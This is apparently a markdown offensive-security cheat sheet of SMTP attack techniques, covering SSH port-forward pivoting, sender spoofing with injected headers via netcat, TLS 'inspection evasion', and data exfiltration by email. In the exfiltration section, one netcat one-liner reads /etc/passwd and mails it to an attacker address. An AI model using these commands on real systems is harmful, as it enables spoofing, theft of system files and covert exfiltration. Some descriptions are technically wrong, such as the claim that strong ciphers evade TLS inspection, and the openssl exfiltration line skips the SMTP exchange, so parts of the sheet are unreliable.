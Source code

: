 ## Lateral Movement, Pivoting, and Tunnelling

### SMTP Pivoting
- **Tool:** [[SSH]], [[NetCat]]
    ```bash
    ssh -L 587:<target_ip>:25 <intermediate_host>
    ```
- **Description:** Uses an intermediate host to pivot through SMTP services for lateral movement within the network.

## Defense Evasion

### Obfuscating SMTP Headers
- **Tool:** [[Custom Scripts]], [[Email Clients]]
    ```bash
    echo -e "EHLO example.com\nMAIL FROM:<spoofed@example.com>\nRCPT TO:<victim@example.com>\nDATA\nSubject: Test\nX-Header: Obfuscated\n.\nQUIT" | nc <target_ip> 587
    ```
- **Description:** Injects custom headers into emails to evade detection by security mechanisms.

### SSL/TLS Inspection Evasion
- **Tool:** [[OpenSSL]]
    ```bash
    openssl s_client -connect <target_ip>:587 -cipher "HIGH:!aNULL:!MD5"
    ```
- **Description:** Using strong ciphers to evade SSL/TLS inspection mechanisms that might otherwise detect malicious activity.

## Data Exfiltration

### Exfiltrating Data via SMTP
- **Tool:**[[ Custom Scripts]], [[NetCat]]
    ```bash
    echo -e "EHLO example.com\nMAIL FROM:<attacker@example.com>\nRCPT TO:<attacker@example.com>\nDATA\nSubject: Exfiltration\n\n$(cat /etc/passwd)\n.\nQUIT" | nc <target_ip> 25
    ```
- **Description:** Sends sensitive data through SMTP emails to an external address, bypassing traditional file transfer monitoring.

### Exfiltrating Data via Email
- **Tool:** [[Custom Scripts]]
    ```bash
    echo "Subject: Exfil Data\r\n\r\nSensitive information." | openssl s_client -connect <target_ip>:587 -crlf
    ```
- **Description:** Sending sensitive data out of the network via SMTPS, ensuring it remains encrypted and less likely to be detected.
